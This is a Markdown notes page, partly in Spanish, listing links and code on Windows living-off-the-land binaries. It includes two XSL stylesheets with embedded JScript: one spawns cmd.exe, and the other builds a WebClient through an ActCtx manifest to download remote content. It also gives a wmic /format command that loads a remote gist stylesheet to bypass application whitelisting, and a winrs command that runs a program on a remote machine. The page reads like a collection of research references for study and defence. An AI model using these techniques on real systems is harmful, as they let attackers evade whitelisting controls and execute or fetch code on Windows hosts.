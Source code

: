 #  LOLBin
https://twitter.com/search?q=%23LOLBin

# LOLBAS
* https://github.com/api0cradle/LOLBAS
* https://github.com/api0cradle/LOLBAS/tree/master/OSBinaries
* https://github.com/api0cradle/LOLBAS/tree/master/OSLibraries
* https://github.com/api0cradle/LOLBAS/tree/master/OSScripts
* https://github.com/api0cradle/LOLBAS/tree/master/OtherBinaries

# Mostrar los procesos que se están ejecutando en Windows con WMIC
https://www.jesusninoc.com/2018/05/01/mostrar-los-procesos-que-se-estan-ejecutando-en-windows-con-wmic/

# XML 
https://www.w3schools.com/xml/simplexsl.xml

# XSL
https://www.w3schools.com/xml/simple.xsl

# XSL que ejecuta CMD
https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	]]> </ms:script>
</stylesheet>
```

# XSL que descarga
https://gist.githubusercontent.com/caseysmithrc/4932a527e326de68f3bd212913d02c78/raw/8dd9696e937a7e66972a2e95c0d65a83ec9e3d7c/dotnet.xsl
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
		
			
	var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1"><assemblyIdentity name="System" version="4.0.0.0" publicKeyToken="B77A5C561934E089" /><clrClass clsid="{7D458845-B4B8-30CB-B2AD-FC4960FCDF81}" progid="System.Net.WebClient" threadingModel="Both" name="System.Net.WebClient" runtimeVersion="v4.0.30319" /></assembly>';
	
	try {
		var ax = new ActiveXObject("Microsoft.Windows.ActCtx");
		ax.ManifestText = manifest;
		
		var obj = ax.CreateObject("System.Net.WebClient");
		var webstuff = obj.DownloadString("http://www.example.com");
		var a = new ActiveXObject("WScript.Shell").Popup(webstuff);
		
	} catch(e) {
		WScript.Echo("Error: " + e.message);
	}
	]]> </ms:script>
</stylesheet>
```

# WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets
https://subt0x11.blogspot.com.es/2018/04/wmicexe-whitelisting-bypass-hacking.html

```CMD
wmic os get /format:”https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist”
```

# Hack With XSLT
https://evi1cg.me/archives/Hack_With_XSLT.html

# WInRm Via Use winrs .exe in Launch Command Remotely
```CMD
#EnableAccess  
winrm.exe quickconfig
winrs -r:http://#SystemName:5985 -u:Domain\#Username "calc.exe"
```
# Hacking around HTA files
http://blog.sevagas.com/?Hacking-around-HTA-files
